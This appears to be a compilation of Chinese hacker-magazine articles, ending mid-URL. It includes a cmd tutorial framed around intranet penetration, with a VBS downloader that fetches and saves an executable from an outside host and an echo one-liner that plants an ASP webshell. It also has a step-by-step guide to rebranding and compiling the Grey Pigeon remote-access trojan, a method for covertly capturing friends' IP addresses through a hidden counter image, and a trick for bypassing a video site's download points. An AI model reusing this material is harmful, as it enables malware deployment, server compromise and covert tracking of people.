“熊猫师弟，每次你出场都会弄出一点笑话来，你真行哦！下面我来讲讲一些关于网络方面的系统命令吧！”太极虎师姐奸笑道，此时熊猫在地上傻傻地看着它。

## 网络关系系统命令

### 6、ipconfig 命令

IPConfig 实用程序可用于显示当前主机的 TCP/IP 配置的设置值，这些信息一般用来检验人工配置的 TCP/IP 设置是否正确。但是，如果你的计算机和所在的局域网使用了动态主机配置协议 (Dynamic Host Configuration Protocol, DHCP —— Windows NT 下的一种较少的 IP 地址分配给较多主机使用的协议，类似于拨号上网的动态 IP 分配)，这个程序所显示的信息也许更加实用。这时，IPConfig 可以让你了解你的计算机是否成功的租用到一个 IP 地址，如果租用到则可以了解它目前分配到的是什么地址。

了解计算机当前的 IP 地址、子网掩码和缺省网关，实际上是进行测试和故障分析的必要项目。

“师弟听好了，以下所说的命令在以后的内网渗透中作用非常大，要留神了！”太极虎师姐提醒道。

ipconfig——当使用 IPConfig 时不带任何参数选项，那么它为每个已经配置了的接口显示 IP 地址、子网掩码和缺省网关值，如图 14。


ipconfig /all ——当使用 all 选项时，ipconfig 能为 DNS 和 WINS 服务器显示它已配置且所要使用的附加信息（如 IP 地址等），并且显示内置于本地网卡中的物理地址（MAC）。如果 IP 地址是从 DHCP 服务器租用的，ipconfig 将显示 DHCP 服务器的 IP 地址和租用地址预计失效的日期，如图 15。


### 7、arp 命令

ARP 是一个重要的 TCP/IP 协议，并且用于确定对应 IP 地址的网卡物理地址。使用 arp 命令，我们能够查看本地计算机或另一台计算机的 ARP 高速缓存中的当前内容。此外，使用 arp 命令也可以用人工方式输入静态的网卡物理 / IP 地址对，这样有助于减少网络上的信息量。

arp 命令在内网渗透中一般用于测探与本机进行通讯的机器列表，我们来执行 arp -a 命令看看效果，如图 16，发现高速缓存中的所有项目里存在 192.168.1.1 这个地址。


这个 IP 正好是路由器的，因为 we 机器处于内网，上网是要通过路由器，所以本地机器一定要与路由器通讯，于是路由器的 IP 就会出现在 arp 的缓存表里了。

要是你与内网的其它机器也有通讯的话，信息也会显示在该缓存表中。arp 命令还可以带上参数 -g，-a 和 -g 参数的结果是一样的，多年来 -g 一直是 UNIX 平台上用来显示 ARP 高速缓存中所有项目的选项，而 Windows 用的是 arp -a (-a 可被视为 all，即全部的意思)，但它也可以接受比较传统的 -g 选项。arp -d 命令则为清除缓存数据。

### 8、echo 命令

这个命令虽然简单，但是用起来还是有技巧的，这里以一个 VBS 下载者为例，先看以下代码：

```vbscript
echo Set xPost = createObject("Microsoft.XMLHTTP") >cl.vbs
echo xPost.Open "GET","http://www.mhack.cn/cl.exe",0 >>cl.vbs
echo xPost.Send() >>cl.vbs
echo Set sGet = createObject("ADODB.Stream") >>cl.vbs
echo sGet.Mode = 3 >>cl.vbs
echo sGet.Type = 1 >>cl.vbs
echo sGet.Open() >>cl.vbs
echo sGet.Write(xPost.responseBody) >>cl.vbs
echo sGet.SaveToFile "c:\dc.exe",2 >>cl.vbs
```

以上代码的意思就是将 echo 后面的内容输入到 cl.vbs 文件里面。这里大家会发现第一行结尾使用的是“>”这个符号，而下面行列当中内容的结尾处都是用的“>>”这个符号，这有什么区别呢？

第一行用“>”，意思是清空 cl.vbs 原有的数据并将 echo 后面的内容输入 cl.vbs 文件。而用“>>”这个符号的意思则为保留 cl.vbs 里面原有的内容，在最后一行添加 echo 后面的内容。

把以上内容直接复制到 cmd 里面即可生成一个 cl.vbs 文件，如图 17。


还有一些情况需要 echo 出一句话木马，但直接用 echo 命令输入一句话木马是不行的，因为一些特殊字母会被过滤掉，此时就需要用“^”转义字符来写一句话木马，如：

```cmd
echo ^<script language=VBScript runat=server^>execute request^("l"^)^</script^>>d:\web\1.asp
```

### 9、nbtstat 命令

该命令用于显示本地计算机和远程计算机的基于 TCP/IP (NetBT) 协议的 NetBIOS 统计资料、NetBIOS 名称表和 NetBIOS 名称缓存。NBTSTAT 可以刷新 NetBIOS 名称缓存和注册的 Windows Internet 名称服务 (WINS) 名称。

使用不带参数的 NBTSTAT 命令将显示帮助，语法格式为：`nbtstat [-a remotename] [-A IPaddress] [-c] [-n] [-r] [-R] [-RR] [-s] [-S] [Interval]`。

- -n 参数显示本地计算机的 NetBIOS 名称表，如图 18。
- -a remotename 参数是显示远程计算机的 NetBIOS 名称表，其中 remote name 是远程计算机的 NetBIOS 计算机名称。NetBIOS 名称表是运行在该计算机上的应用程序使用的 NetBIOS 名称列表。


执行 `nbtstat -a 远程ip` 后就能得到图 18 的结果，不过那个结果是显示对方计算机的 NetBIOS 名称表信息。

### 10、netstat 命令

显示协议统计信息和当前 TCP/IP 网络连接。在渗透中一般用到以下三个参数：

- -a 显示所有连接和监听端口。
- -n 以数字形式显示地址和端口号。
- -o 显示与每个连接相关的所属进程 ID。


我们用 `netstat -ano` 命令查看当前机器的端口通讯情况，如图 19，这样就列出当前 TCP/IP 网络连接状况了。

这里还有一个技巧，当你只想查看 135 端口的状况时，可以配合 find 命令使用，比如：`netstat -ano | find "135"`，如图 20，我经常用这条命令判断对方的 3389 端口状况。

### 11、tasklist 命令

用来显示运行在本地或远程计算机上的所有进程，带有多个执行参数。

查看本机进程只需要在 CMD 模式下输入 Tasklist 命令即可显示本机的所有进程，如图 21。本机的显示结果由 5 部分组成：图像名（进程名）、PID、会话名、会话 # 和内存使用。

这个命令还支持查看远程系统的进程，前提是需要远程机器的 RPC 服务支持，否则该命令不能正常使用。命令格式为：`Tasklist /s 远程ip /u 账号 /p 密码`，此用户账号必须是合法的系统账号。

### 12、Taskkill 和 ntsd 命令

Taskkill 命令从命名上就知道是关闭进程之意，它关闭进程有两种模式，一种是根据进程的 pid 值进行关闭，要是你想关闭一个 pid 为 3488 的进程则执行 `Taskkill /pid 3488`，如图 22。


另外一种方法是直接结束进程名，比如命令：`Taskkill /IM /F notepad.exe`，一般结束进程建议带上 /IM 和 /F 参数，/IM 参数是指定要终止的进程的图像名，/F 则是指强行终止进程。

在实际应用中，Taskkill 命令往往不能满足我们的需求，因为很多程序的进程都不能用 Taskkill 命令来终止。倘若遇到这个情况，不妨可以尝试一下 ntsd 命令，ntsd 命令是系统 debug 级的，基本上除了 WINDOWS 系统自己的管理进程，ntsd 都可以杀掉，不过对于一些 rootkit 级别的超级木马就无能为力了。

ntsd 命令同样支持两种模式终止进程，命令格式为：`ntsd -c q -p pid` 和 `ntsd -c q -pn ***.exe`。

### 13、Telnet 命令

Telnet 协议是 TCP/IP 协议族中的一员，是 Internet 远程登录服务的标准协议和主要方式，它为用户提供了在本地计算机上完成远程主机工作的能力。

在终端使用者的电脑上使用 telnet 程序连接到服务器，终端使用者可以在 telnet 程序中输入命令，这些命令会在服务器上运行，就像直接在服务器的控制台上输入一样，可以在本地就能控制服务器。

要开始一个 telnet 会话，必须输入用户名和密码来登录服务器，Telnet 是常用的远程控制 Web 服务器的方法。起初，它只是让用户的本地计算机与远程计算机连接，从而成为远程主机的一个终端。一些较新的程序版本可以在本地执行更多的处理，提供更好的响应，并且减少了通过链路发送到远程主机的信息数量。

Telnet 的应用不仅方便了用户进行远程登录，也给 hacker 提供了又一种入侵手段和后门。一旦入侵者与远程主机建立了 Telnet 连接，入侵者便可以操控其计算机。

鉴于 telnet 入侵已经有很多详细资料了，我就不多说了。师弟，例如你用溢出工具对一台电脑进行溢出之后，被攻击的电脑将开放一个端口等待连接。此时你就能用 `telnet ip 端口` 这种命令格式连接上去。连接成功之后就像在本地操作电脑一样了。

telnet 命令有一个功能蛮好用的，就是用于判断远程计算机端口是否能连接。假如我们想知道 www.nohack.cn 的服务器 80 端口能否外连，可以执行命令：`telnet www.nohack.cn 80`，要是能连接即出现如图 23 的界面，反之则提示连接失败。


### 14、ping 命令

PING (Packet Internet Grope)，因特网包探索器，用于测试网络连接量的程序。Ping 发送一个 ICMP 回声请求消息给目的地并报告是否收到所希望的 ICMP 回声应答。

相信当网管的朋友对这个命令肯定不会陌生，用 Ping 命令很方便就能检查出网络是否畅通。我们执行 `ping www.163.com -t` 看看效果，如图 24。

我们通过 ping 命令可以得到 www.163.com 的 IP 地址，这个功能正是黑客最常用的。除了获取网站 IP 之外，它还能检测出我们与 163 网站连接的延时有多大。


从图 24 中可以看出，我们跟 163 网站连接延时为 250ms 左右，延时越大代表网络不畅通，一般内网延时不会大于 1ms。我们发现每一行返回的数据后面都有一个 TTL (Time To Live，生存时间) 值，不同操作系统的回显中，TTL 值都不相同，正因为这个原因，黑客们也常常利用 ping 命令返回 TTL 值来判断操作系统。不过这个方法现在不怎么管用了，很多管理员都通过注册表修改 TTL 值。

TTL 是 IP 协议包中的一个值，它告诉网络数据包（例如 ICMP 包）在网络中的时间是否太长而应被丢弃。有很多原因使包在一定时间内不能被传递到目的地，例如不正确的路由表可能导致包的无限循环。

一个解决方法就是在一段时间后丢弃这个包，然后给发送者一个报文，由发送者决定是否重要重发。TTL 的初值通常是系统缺省值，是包头中的 8 位的值。

TTL 的最初设想是确定一个时间范围，超过此时间就把包丢弃。TTL 通常表示包在被丢弃前最多能经过的路由器个数，当记数到 0 时，路由器决定丢弃该包，并发送一个 ICMP 报文给最初的发送者。

### 15、FTP 命令

FTP (File Transfer Protocol) 是文件传输协议的简称，用于 Internet 上控制文件的双向传输。同时，它也是一个应用程序 (Application)，用户可以通过它把自己的 PC 机与世界各地所有运行 FTP 协议的服务器相连，访问服务器上的大量程序和信息。

FTP 的主要作用就是让用户连接上一个远程计算机（这些计算机上运行着 FTP 服务器程序）查看远程计算机有哪些文件，然后把文件从远程计算机上拷到本地计算机，或把本地计算机的文件送到远程计算机去。

这里我以实例来演示一下 FTP 命令的应用。进入 CMD 模式输入命令：`ftp 127.0.0.1`，意思是登录本地 FTP。如果你要登录其它 FTP 服务器，把 127.0.0.1 替换成你要登录的 IP 即可。命令执行之后就会提示输入 FTP 账号和密码，依次填写好就会出现如图 25 的界面。


首先我们来建立一个文件夹，执行命令：`mkdir nohack`，可建立一个名为 nohack 的文件夹，然后我们用 `dir` 命令查看是否建立成功，如图 26。删除目录则用命令：`rmdir nohack`。

接着用 `cd` 命令可以进入当前目录的下级目录，这跟 DOS 是一样的。现在我们来看看它的上传下载功能吧，在执行上传下载之前我们先要了解两个命令，第一个就是 `lcd` 命令，它的作用是定位本地默认文件夹，就是你要上传的文件存放的目录。其次是 `bin` 命令，它的意思是采用二进制传输。如果你要上传下载，这一步很重要，不先执行这个命令，上传下载会很慢的。


其中 FTP 中的 `cd ..` 命令是返回上一层目录的意思，中间多了一个空格，跟我们的 DOS 命令有点区别，返回根目录用 `cd \` 命令，退出命令为 `bye`。

现在我们上传一个 chilong.txt 文件到 FTP 服务器，执行命令：`put chilong.txt`，意为将当前目录比如 f:\123 中的文件 chilong.txt 上传到 FTP 服务器默认目录，如图 27。你还可以用 `mput *.*` 将所有文件上传到 FTP 服务器上。

至于下载文件则用 `get` 命令，比如 `get nohack.txt`，意为将 FTP 服务器默认目录中的文件 nohack.txt 下载到当前目录下（比如 f:\123）。当然，你也可以用 `mget *.*` 将所有文件下载到 f:\123 目录。删除文件的命令格式为：`delete 文件名`，命令 `!dir` 用于查看本地文件夹中的文件及目录。

## 累了，困了

“bye……哈哈，个性化的命令！”熊猫阿宝听着讲解很兴奋。

太极虎师姐说道：“其实系统命令的应用远远不止介绍的这些，我们只是引导你入门学习一下常用的命令，其它还有一些高级命令没有给你讲解，例如 tracert 命令、nslookup 命令等。等你有了一定的基础后，你就会用到这些命令了，现在跟你说这些命令估计你很难接受……”

太极虎师姐正说着，听到一阵呼噜声，定睛一看，原来阿宝终于支撑不住了，连续的新知识灌输和废寝忘食的网络实践，让它很兴奋。过度的兴奋后就是长久的疲劳吧……

看着阿宝憨憨的睡像，大家又想起了那个力斗牛头郎的神龙勇士。大家点点头，悄悄退出实验室，轻轻掩上门，飘然而去……熊猫阿宝在梦中又有怎样的际遇呢？下期再见！

梦中的阿宝：NO……不要啊……MY GOD……我的包子，CMD！

---

## 编译个人专版的灰鸽子

60 大庆，举国欢腾，学校一放假，哥们几个就不见人了，据说去约会了。哎，谁叫我是学生会的呢，得在放假期间等候召唤，做些费力不讨好的工作。闲着没事，编辑完本期 Q 版，出去把妹去……不然这个学生会未来的栋梁可就绝种了啊…… ——图☆obaby☆

- 从本文你可以学到：
- 如何利用 Delphi 和相关控件编译专版灰鸽子

我喜欢的是废话少说，直入主题。首先来安装编译环境，所有版本的灰鸽子都是 Delphi 编写的，大家只要安装上 Delphi7 编译器就行了，没什么难度，我主要说明下怎么安装灰鸽子相关的控件。

### 安装控件

灰鸽子的所需控件如图 1，下面开始安装。如果控件的扩展名为“.dpk”，就表示这个控件是需要安装的，双击打开该文件，比如“AnimationEffect[动画窗口控件]”文件夹中的那个“AnimationEffectD7.dpk”。安装的时候选择与自己的 Delphi 编译器相符的版本，如果不确定的话可以依次从高版本往下选择。


在打开 dpk 后缀文件后，如图 2，点击“Install”开始安装，完成后会有提示，如图 3，这时单击“OK”。


在打开新的控件安装时会提示是否保存更改到已安装的工程文件，选择“no”就可以了，如图 4。


如果没有相关的安装包而只有相关的源文件（如 UDP 控件 [修正无法关机的问题]），这种控件是不需要安装的，只要在编译的时候把相关文件添加到搜寻路径中就可以了，这个在后面会详细的介绍。按照前面的操作步骤依次安装完成所有的控件后就可以开始编译灰鸽子了。

### 编译控制端 (client)

打开 Client 目录下的 H_Client.dpr，是不是熟悉的界面出来了？这里简单的介绍下 Delphi 程序的文件组成，其中 .pas 是程序源文件。

序的源代码，是可以修改的。比如打开 ConfigServerUnit.pas，看到的就是配置服务端的窗口，这些资源都是可以修改的。另外一种是工程文件，扩展名是 dpr，也就是可以直接编译生成可执行文件的 Delphi 工程文件。在这里其余类型的扩展名暂不考虑讲解。

第一步是首先修改灰鸽子的启动画面，找到 Splash.pas 文件进行双击，打开后就可以编辑灰鸽子的启动画面了。在左边的资源菜单 (Object TreeView) 中找到 Image1 控件。在属性查看器中找到 Picture 属性，然后双击就可以打开导入图片的对话框了。接着我们选择 Load，找到自己要做启动画面的图片，然后导入就可以了。

第二步来修改灰鸽子的标题。这个标题可能有人修改会无法成功，为什么呢？因为如果语言文件存在的话，灰鸽子的标题和关于对话框中的内容是从外面的语言文件中读取的，如果语言文件不存在，则是使用自己的默认标题。

## 1. 修改语言文件中的标题

在 client 目录下可以找到这样三个文件：H_Client.chs、H_Client.cht、H_Client.eng。这三个文件分别对应着灰鸽子主窗口选择语言中的简体中文、繁体中文和英文。

这里以简体中文为例说明下怎么修改标题和程序的关于窗口的内容。用文本编辑器打开 H_Client.chs，可以看到如下内容：

```ini
[General]
Language=Chinese
Charset=134
Font=MS Sans Serif
fontsize=9
:
[SplashForm]
Title=灰鸽子
:
[MainVip]
Caption=灰鸽子 VIP 1.2
Sound1=本机没有可用的声卡设备,您将无法使用语音功能!!
```

“Caption=”后的内容就是主窗口的标题，只要修改此处就可以了。对于源文件的窗口的 Caption 可以不必修改，即使修改了也是无效的。下面是关于对话框的内容，可以修改成自己想要的内容。修改完毕之后保存就可以了，其他两种语言文件中的对应内容也可以进行修改。

```ini
[AboutForm]
Caption=关于 灰鸽子
Label4.Caption=2003.09.09
Label1.Caption=作者:葛军
Label2.Caption=主页:www.huigezi.net
Label3.Caption=邮箱:huigezi@vip.163.com
Button1.Caption=确定
```

## 2. 修改程序源代码中的标题

需要注意的是，灰鸽子的标题是在程序运行的过程中通过赋值语句来实现的，而不是通过控件的自定义属性。在资源查看窗口 (Object TreeView) 中找到 HgzVip 控件，在下面的 Object Inspector 中找到属性 (Properties)，可以修改 HgzVip.Caption。修改这个属性后虽然程序在编译器中的标题变了，但是生成后程序的标题仍然是原来的，所以这样修改是无效的。

那么怎么来修改呢？在资源查看窗口中双击 HgzVip 打开对应的源代码，直接搜索 (也可以按 Ctrl+F 键) 找到 `HgzVip.Caption := HgzVip.Translate('Caption', '灰鸽子 Vip 1.2') + ' ' + Temp;`，把其中的“灰鸽子 Vip 1.2”修改成自己想要的内容就可以了。如果此处不修改，在没有语言文件的情况下会显示原来的标题。

第三步是修改灰鸽子的皮肤。在资源菜单 (Object TreeView) 中找到 CompressedStoredSkin1，在属性对话框中修改 FileName 属性，点击右边的“...”按钮选择新主题的 ini 文件就可以了 (可以用灰鸽子或者上兴的皮肤文件)，最后记得保存所有的修改 (依次选择菜单中的“File” - “Save all”)。

第四步是修改关于对话框的图片，打开 AboutUnit.pas 文件，修改 Image1 的 Picture 属性，Load 一个新的图片就可以了。这里面的信息同样不需要修改，因为是从语言文件中读取的。

第五步是修改灰鸽子的程序图标，和主窗口最小化到系统托盘后的图标。依次选择菜单“Project” - “Options”，打开后切换到 Application 标签页。修改 Title 属性，这个属性对应的是程序在任务栏中的标题，如果留空则显示应用程序的文件名称，我们这里修改为“黑客手册 远控”。

另外一个需要修改的内容是灰鸽子的图标，我们单击“Load Icon”按钮选择一个图标文件，然后“确定”就可以了，程序再次编译生成的时候会替换图标。

下面来修改最小化到系统托盘后的图标。在灰鸽子主窗口的资源菜单中找到 spTrayIcon1，修改 Properties 属性中的 Hint 为“黑客手册 远控”，Icon 属性重新 load 自己喜欢的图标就可以了。如果打开的窗口太多，可以通过系统菜单的 Windows 来快速切换窗口。

第六步是杂项修改，在这里简单的说明下其他内容的修改方法。如果想修改 ToolButton 的内容或者图标的话，找到对应的属性进行修改就可以了，这里重点说明下图标的修改。选中一个 button 后，比如“自动上线”，可以看到当前按钮的属性，Caption 为显示的文字标题，Glyph 就是对应的图片了。选择自己喜欢的图片直接替换就可以了，文字的修改比较简单，这里就不说明了。

## 编译服务端 (Server) 测试上线

服务端没有需要修改的内容，只要能够编译成功就可以了，只要所有控件安装正确是不会出现错误的。如果打开 H_Server.dpr 文件提示“变量声明错误，是否要删除？”，选择“忽略”就可以了。同样，编译的时候可能会继续询问，此时选择“不删除”。

修改到此结束，最重要也是最激动人心的时刻来了，编译生成我们的修改版，依次选择“Project” - “Build H_Client”即可。

编译的时候可能会出现一些错误提示，比如“File not found: 'SkinCtrls.dcu'”，这是由于虽然安装了控件，但是控件的资源文件并不在编译器的搜寻目录中，所以出错。简单的解决方法就是在控件的安装文件夹中找到提示的错误文件，将相同文件名的 .dcu 和 .pas 文件复制到灰鸽子源码文件的目录中就可以了。

例如编译的是 Client，在出现错误提示后，在控件安装包中找到 SkinCtrls.dcu 和 SkinCtrls.pas 文件复制到 Client 目录下重新编译就可以了。当然也可以在编译前把所有控件中的 .dcu 和 .pas 文件复制到灰鸽子的源代码目录。安装控件包的源码文件还有其他的方法，也比较繁琐，这里就不做介绍了，大家可以到网上搜索下，我们提供最简单易行的方法。

当编译没有错误，我们的客户端就完全 OK 了。编译的时候如果直接按 F9 运行可能会报错，这时只要单击“OK”，再按 F9 继续运行就可以了。建议选择编译生成可执行程序后到相关目录下运行文件的方法，因为直接按 F9 运行会有调试器附加到相关进程，在测试上线或者其他功能的时候，可能由于代码本身的问题会出现比较多的错误提示。如果编程功底比较好的话，可以直接按 F9，新手就按照我的方法调试吧，可以降低程序出错的概率。

最后把编译成功的 H_Server.exe 复制到 Cache 目录下，注意：H_Server.exe 在复制后要重命名为 Cserver.dat，文件名需要和 ConfigServerUnit.pas 中定义的相同，否则无法生成服务端。其中的 CServer.dat 就是生成服务端的 dat 文件。

全部编译完成后把文件复制到正确的路径下就可以使用了（注意要把三个语言文件同样放到灰鸽子的相同目录下，否则灰鸽子的切换语言功能将不能正常使用）。

配置生成服务端后运行测试，可以正常上线。如果不能上线，需要修改监听端口和监听密码，在灰鸽子主程序界面，把监听端口改成 80，密码留空，应用改变后就可以正常上线了。如果修改无效，打开 Operate.ini 文件，把里面的 PassWord 留空，AutoExport 改成你要设置的端口就可以了。如果有什么问题，欢迎大家来论坛和我交流！

> 编辑点评：文章利用图文并茂的方式向大家讲解如何利用 Delphi 编译自己的专版灰鸽子，没有用到什么技术，不过需要多多练习，对于菜菜来说，很新奇吧。

## 利用网游资料快速查询 你是否还是他的好友

除了利用 QQ 秀商城的合影查你的 QQ 号是否在对方的 QQ 好友中外，利用查看对方的网游资料也可以知道自己是否为对方好友。

首先点击你的好友的 QQ 个人资料，在“网络游戏”选项里就可以发现你是不是他的好友。如果你在对方的好友列表里，这里的信息会显示相关游戏等级和资料，否则将无法查看。怎样？很简单吧，现在看看谁在我好友里面不加我为好友的，全拉黑~

## 拼 QQ 秀 拼的是创意

玩 Q 如果没有 Q 秀就说不过去了，但是玩 Q 秀靠红钻，然后拼钱，那就太没意思了！今天找到一款巨 NB 的软件，可以将自己的“白装装”弄得超级棒！男生的上半身 + 女生的下半身 + 宠物的头，哈哈，怎么样？够创意吧！软件操作也相当简单，好玩的有很多，都在列表中了，大家赶紧玩玩吧。

## 拿好友 IP —— 计数器帮我忙

腾讯最近做的安全工作大家想必是有目共睹吧，QQ 外挂接二连三的 GAME OVER，许多外挂的工作只能靠手工来达到了，比如拿好友的 IP。

许多“黑手”中的好友都知道我空间曾经放过 IPWind 的个性图片签名，能够显示自己电脑的相关信息。但是如何拿到好友看到的动态图片呢？这一般是不可能的。最近有一建站的朋友要统计自己站的访问量，介绍了 IP 统计器给我，恰巧解决了拿好友 IP 的问题。

打开 http://ipcat.cn/homepage 进行简单的注册，我这里以 NOHACK 为用户名为大家做演示。注册完成后进入我的计数器，由于自己刚注册，所以没有计数器。点击“创建计数器”，进入计数器创建页面。其实只需填写名称与网址就可以了，其中网址就是自己的空间地址。这里注意的是，记录颜色应当视情况而定，我为了不和空间背景颜色起到冲突，所以选择了黑色。当然，你为了隐藏的话，可以用背景的颜色。

计数器可以设置的不止这些，其中“高级设置”中还有好多服务，本文用不到，不过也挺不错的。点击“创建计数器”后就可以监视网站的流量了，不过我们需要的是一张可以放在空间的图片。接下来点击“使用计数器”获得图片地址。

我们得到的是一段代码，IP 猫网站提供的代码格式一般如：``。由于 QQ 空间会自动生成一部分代码，所以不要直接把 IPCAT 网站提供的代码直接贴入，而是只贴其中一部分，如：“http://i.ipcat.cn/ip?id=计数器ID”，其中计数器ID是您自己计数器的ID号。

接下来进入自己的空间，建立大图模块插入我们的统计器。为了更好的隐蔽，我们把统计器放在其它图片下面，将其移到最底层，因为显露有时会很危险。接下来找好友踩空间吧，大家想尽一切办法让朋友进自己的空间啊，不然一切工作都是徒劳。

在好友回应踩完之后，找到计数器就可以查看他的 IP 了。有的好友可能只是打开就马上关掉了，那么地址就不容易捕捉到，导致地址是未知的。不过可以用 IP 查看到地址。

OK，单个拿好友 IP 的方法搞定了，想不想画一个好友 IP 一览表啊？那我们就学习批量拿好友 IP。统计器放一段时间后，想必一定会有许多好友进你的空间，会留下好多的 IP，我们再利用 QQ 空间自带的统计器使得 IP 地址与 QQ 账号对应。在打开好友空间过程中，在地址栏截取好友 QQ

选择“搜索”菜单中的“查找文本”选项，在其中填入“MSIE”。单击“搜索”后我们就可以找到 User Agent 附近的字段，把 Opera 修改一下，但修改后字数一定要和修改前一致。

腾讯网除了会判断浏览器的 UA，还会判断访问者的 IP 地址，如果不是属于手机上网通讯的 IP 地址还是不行。这里给大家一个方法，可以到网上找移动或联通的代理服务器，也可以使用软件搜索。

找到可用的代理之后就可以在 Opera 中设置代理了，首先打开“工具”菜单，选择“首选项”，在出现的“首选项”对话框中，选择“网络”选项卡中的“代理服务器”，在“HTTP”内填入代理服务器的地址和端口就可以了。

## 第二种方法：使用 Firefox 浏览器

第一种方法虽然有效，但比较麻烦，而且代理服务器也不稳定，特别不好找，需要经常更换。使用 Firefox 就简单多了，我们可以下载安装“User Agent Switcher”插件来设置和编辑 UA（下载地址：https://addons.mozilla.org/zh-CN/firefox/addon/59）。

安装之后在工具栏菜单中会出现“Default User Agent”选项，选择其中的“iPhone 3.0”，此时打开 www.ipchicken.com 就可以看看自己浏览器的 User Agent 信息。不过此时浏览器还不能浏览 WAP 网站，需要下载 wmlbrowser 插件（https://addons.mozilla.org/zh-CN/firefox/addon/62），这样才能浏览。

至此，大功告成，熟悉的手机腾讯网终于出现在了眼前。总的来说，第二种方法比较好，既方便也快捷，大家不妨都来试一试。

> 编辑点评：其实用 IE 浏览 WAP 网页貌似只要修改下注册表就行，不过上 3G 还没试过。另外，许多手机模拟器软件也是可以在电脑上浏览 WAP 网页的，不知道上 3G 模式是否也一样，大家有兴趣的可以试试。

## 看我来获取高清 MV 下载地址

文/Blackk

通过本文可以开拓一下破解下载的新思路

最近网络上找高清 MV 的帖子真是数不胜数啊，难道高清 MV 真的这么难找吗？不是的！今天我就为大家介绍一个非常好的高清 MV 网站，经过本人的测试，这个网站的 MV 确实是高清的，而且 MV 非常齐全，网站的名字叫做：音悦台，地址是：http://www.yinyuetai.com/index.do。

我们打开网站，看见主页面的第一感觉就是非常清新，而且网站上的大幅图确实不赖，如图 1。

想必各位已经等不及想要下载了吧？我就以 G-Dragon 的 Heartbreaker 这首歌开刀吧！按下“点击播放”按钮后我们来到了 http://www.yinyuetai.com/play.do?videoId=6558，可以试看一下这个视频，确实是非常清晰哦，接下来就是面临怎样下载的问题了。


首先打开源文件，然后查找“FLV”，如图 2，按了“查找下一个”两次后我们看到了关键的东西：GDragon_Heartbreaker，这个不就是刚刚的视频名字吗？而且地址是以 FLV 文件结尾的，啊哈，那么说明……

我们把 http://flv.yinyuetai.com/uploads/videos/common/GDragon_Heartbreaker.flv 放入迅雷下载看看，成功啦！不过 FLV 还是不算高清吧，画面毛刺严重啊！

慢着，在视频的下方怎么有个手机版下载？如图 3，难道不用找地址吗？那岂不是我刚刚白干一场？


单击进去看看，如图 4，原来是这样的，下载奢华高清版的 MV 需要积分，那肯定是要注册啦！


随便注册个账号，进入后点击下载奢华高清版，然后迅雷就自动跳出来了，如图 5。不过这时不要急着下载，我们先把下载链接拿出来看一下：

http://download.yinyuetai.com/uploads/videos/common/high/GDragon_Heartbreaker.3gp?now=Sat%20Aug%2022%2011:35:16%20UTC+0800%202009


咦，这个链接后面好像是以时间为变量，难道下载要验证时间？那么我们把链接的时间修改一下，看看可以不可以下载。经过测试，同样可以下载，那么说明这个时间变量没什么作用。

通过测试，不想注册而又想下载高清 MV 的朋友可以构造以下链接：

http://download.yinyuetai.com/uploads/videos/common/high/